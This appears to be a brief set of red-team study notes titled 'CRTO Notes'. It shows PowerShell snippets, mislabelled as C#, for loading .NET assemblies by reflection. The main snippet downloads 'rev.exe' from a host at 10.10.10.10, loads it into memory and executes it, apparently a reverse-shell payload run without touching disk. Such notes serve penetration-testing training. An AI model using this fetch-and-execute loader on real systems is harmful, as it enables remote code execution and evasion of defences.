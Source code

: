 ```yaml
---
title: CRTO Notes
date: 2021-08-04 21:00:00 0000
categories: [RED_TEAM, CRTO]
tags: [C# CRTO REDTEAMING]
---
```


```csharp
[system.reflection.assembly]::LoadFile("file")
 [namespace.class]::Main()
```

Binary reflective loading

```csharp
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```
